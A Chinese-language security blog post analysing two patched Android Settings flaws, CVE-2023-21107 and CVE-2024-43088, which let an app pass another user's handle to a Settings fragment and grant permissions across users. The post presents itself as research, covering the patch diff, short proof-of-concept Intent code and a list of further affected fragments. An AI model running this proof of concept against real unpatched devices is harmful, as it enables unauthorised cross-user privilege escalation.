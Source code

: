 ```yaml
---
title: 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088
slug: blog/discussion-3/
number: 3
url: https://github.com/CloveIso/notes/discussions/3
date:
  created: 2024-11-21
  updated: 2024-11-21
created: 2024-11-21
updated: 2024-11-21
authors: [Cloveiso]
categories: ['CVE分析']
comments: true
---
```


# 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088

作为一个关键系统应用，系统设置拥有跨用户权限，此漏洞中的一个 Fragment 接收外部传递的 user handle 而没有任何输入校验和权限检查，然后直接开始使用这个 user handle，这样就使得攻击者可以利用一个低权限的恶意应用，打开 Settings 并传入其他用户的 handle，让高权限的 Settings 错误访问和操作其他用户的数据。

CVE-2023-21107漏洞补丁：[Enforce INTERACT_ACROSS_USERS_FULL permission for NotificationAccessDetails](https://android.googlesource.com/platform/packages/apps/Settings/+/179e5ce2a521710992b5ebdb2d88e0c3b3f2c12b^!/#F0)

CVE-2024-43088漏洞补丁：[Checks cross user permission before handling intent](https://android.googlesource.com/platform/packages/apps/Settings/+/975c28535419be1cc45f66712f41e4a7a40e6001)

<!-- more -->

## CVE-2024-43088分析

两个漏洞基本一模一样，这里以CVE-2024-43088为例浅浅分析一下

先看一下补丁：

```java
@@ -135,8 +137,13 @@
             }
         }
         if (intent != null && intent.hasExtra(Intent.EXTRA_USER_HANDLE)) {
-            mUserId = ((UserHandle) intent.getParcelableExtra(
-                    Intent.EXTRA_USER_HANDLE)).getIdentifier();
+            mUserId = ((UserHandle) intent.getParcelableExtra(Intent.EXTRA_USER_HANDLE))
+                    .getIdentifier();
+            if (mUserId != UserHandle.myUserId() && !hasInteractAcrossUsersPermission()) {
+                Log.w(TAG, "Intent not valid.");
+                finish();
+                return "";
+            }
         } else {
             mUserId = UserHandle.myUserId();
         }
@@ -159,6 +166,28 @@
         return mPackageName;
     }
 
+    @VisibleForTesting
+    protected boolean hasInteractAcrossUsersPermission() {
+        Activity activity = getActivity();
+        if (!(activity instanceof SettingsActivity)) {
+            return false;
+        }
+        final String callingPackageName =
+                ((SettingsActivity) activity).getInitialCallingPackage();
+
+        if (TextUtils.isEmpty(callingPackageName)) {
+            Log.w(TAG, "Not able to get calling package name for permission check");
+            return false;
+        }
+        if (mPm.checkPermission(Manifest.permission.INTERACT_ACROSS_USERS_FULL, callingPackageName)
+                != PackageManager.PERMISSION_GRANTED) {
+            Log.w(TAG, "Package " + callingPackageName + " does not have required permission "
+                    + Manifest.permission.INTERACT_ACROSS_USERS_FULL);
+            return false;
+        }
+        return true;
+    }
+
```

主要添加了hasInteractAcrossUsersPermission。当userID和当前的userID不同时就会调用hasInteractAcrossUsersPermission函数来校验拉起方是否有跨用户权限

找到漏洞位置：public abstract class AppInfoBase extends SettingsPreferenceFragment implements ApplicationsState.Callbacks，是一个fragment，并且是一个抽象类

![aosp.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158042230_aosp.png)

 查找该函数调用：

![image-20241111155852745.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158465468_image-20241111155852745.png)

以com.android.settings.applications.UsageAccessDetails为例，对应的是com.android.settings.Settings.AppUsageAccessSettingsActivity

![image-20241111160036278.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158582299_image-20241111160036278.png)

我们直接拉起他看是什么样的

```
                Intent intent = new Intent();
                intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
                intent.setData(Uri.parse("com.android.chrome"));
                startActivity(intent);
```

![image-20241111160719648.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158670050_image-20241111160719648.png)

看到这个界面大概就明白了。就是可以跨用户授权呗

先随便写个应用，申请一下android.permission.PACKAGE_USAGE_STATS权限安装到user10

![image-20241111160202204.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158839396_image-20241111160202204.png)

![image-20241111160314023.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158981135_image-20241111160314023.png)

现在是不允许状态

![image-20241111160843406.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159148933_image-20241111160843406.png)

然后我们切换回主用户再写一个应用

```
Intent intent = new Intent();
intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
intent.setData(Uri.parse("com.android.test5"));
UserHandle us = UserHandle.getUserHandleForUid(1010000);
Log.e(TAG, "onClick: " + us );
intent.putExtra("android.intent.extra.user_handle", us);
startActivity(intent);
```

![image-20241111160549919.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159477345_image-20241111160549919.png)

运行poc之后是这样子的

![image-20241111160600370.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159559467_image-20241111160600370.png)

我们点击允许按钮，然后再切换到user10，这时已经变成已允许了

![image-20241111160909923.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159825397_image-20241111160909923.png)

## 杂项

com.android.settings.applications.AppInfoBase的子类有很多，该问题代码在AppInfoBase的onCreate函数里就会调用。所以按理来说他的所有子类都是可以利用的。

但是实际并不是这样。由于settings的fragment的启动限制，有两种情况是没法利用的。

一种是只能由点击进入的fragment，例如com.android.settings.applications.AppStorageSettings

还有一种是在FRAGMENT_TO_SPA_APP_DESTINATION_PREFIX_MAP这个map里的

因为在这两个map里的fragment会调用com.android.settings.spa.SpaActivity$Companion.startSpaActivityForApp函数

![image-20241111170151967.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732160032804_image-20241111170151967.png)

startSpaActivityForApp函数会从intent中获取包名。然后末尾加上当前的userID，导致无法利用

![image-20241111170218170.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172359362_image-20241111170218170.png)

那么还有哪些fragment可以利用呢，我仔细过滤了一遍：

然后只发现了一个0.0

com.android.settings.applications.appinfo.LongBackgroundTasksDetails

![image-20241111170554992.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172423758_image-20241111170554992.png)



